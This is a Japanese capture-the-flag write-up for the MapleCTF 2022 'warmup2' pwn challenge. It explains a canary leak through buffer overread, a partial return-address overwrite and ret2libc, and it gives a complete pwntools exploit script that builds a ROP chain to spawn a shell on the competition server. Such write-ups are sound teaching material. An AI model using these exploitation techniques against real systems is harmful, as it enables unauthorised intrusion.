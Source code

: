 # MapleCTF 2022 `warmup2 [pwn]` writeup

## 問題
It's like warmup1, but harder.

`nc warmup2.ctf.maplebacon.org 1337`

実行ファイルが提供される。

## 解法
セキュリティ機構の確認から。

```
[*] '/home/caffeine/ctf/maplectf22/pwn/warmup2/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

warmup1と違ってSSPが有効になっている。
そのほかにもwin関数は削除されている。
しかしながらバイナリ内にBOFは健在で、それどころかread -> printf -> readの順で関数を呼んでくれる。
printfは1回目のreadの入力をエコーするが、buffer overreadが狙える。
これを利用してcanaryをリーク、2回目のreadでvuln()のリターンアドレスをpartial overwriteしてvuln()をもう一度呼び出せば後はret2libcでどうにでもなりそう。

ret2libcについて、イベント中や終了後にdiscordで「libcが配布されていないがミスではないか」と質問している人が何人かいた。
この手のアドレスリークが簡単にできる問題では問題サーバで使用されるlibcが配布されないことがある。
[libc-database](https://libc.rip/)などのオンラインツールを使えば、ある程度libcのバージョンを特定することができる。
これらのツールは、libcの読みだされるアドレスの下位12 bitが必ず0に整列されることを利用して特定を行っている。

## Exploit
1度目のvuln()でcanaryの読み出し -> partical overwriteでvuln()を再起、2度目のvuln()でlibcのアドレスのリーク -> ROPを組んでシェルを取る。

```py
from pwn import *
import sys
import re

elf = ELF("chal")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
# io = process(elf.path)
io = remote('warmup2.ctf.maplebacon.org', 1337)

# gdb.attach(io)

# specify libc ver.
# payload = b'A' * 0x127
# io.sendlineafter(b'name?', payload)
# ret = io.recvuntil(b'A\n')
# ret = io.recvuntil(b'!\n')
# addr_libc_start_main = u64(ret[:6] + b'\x00\x00') - 243
# print(hex(addr_libc_start_main))

payload = b'A' * 0x108
io.sendlineafter(b'name?', payload)

ret = io.recvuntil(b'A\n')
ret = io.recvuntil(b'!\n')

canary = u64(b'\x00' + ret[:7])
saved_rbp = u64(ret[7:-2] + b'\x00\x00')

print('canary: ' + str(hex(canary)))


payload = b'A' * 0x108
payload += p64(canary)
payload += p64(saved_rbp)
payload += b'\xa3'
io.send(payload)

payload = b'A' * 0x127
io.sendlineafter(b'name?', payload)

ret = io.recvuntil(b'A\n')
ret = io.recvuntil(b'!\n')

libc_start_main_addr = u64(ret[:6] + b'\x00\x00') - 243
libc.address = libc_start_main_addr - libc.sym["__libc_start_main"]
pop_rdi_ret_addr = libc.address + 0x23b6a
ret_addr = libc.address + 0x22679
print('libc addr: ' + str(hex(libc.address)))

payload = b'A' * 0x108
payload += p64(canary)
payload += b'A' * 8
payload += p64(ret_addr)
payload += p64(pop_rdi_ret_addr)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.sym["system"])
io.send(payload)

io.interactive()
```

FLAG: 記録し損ねた…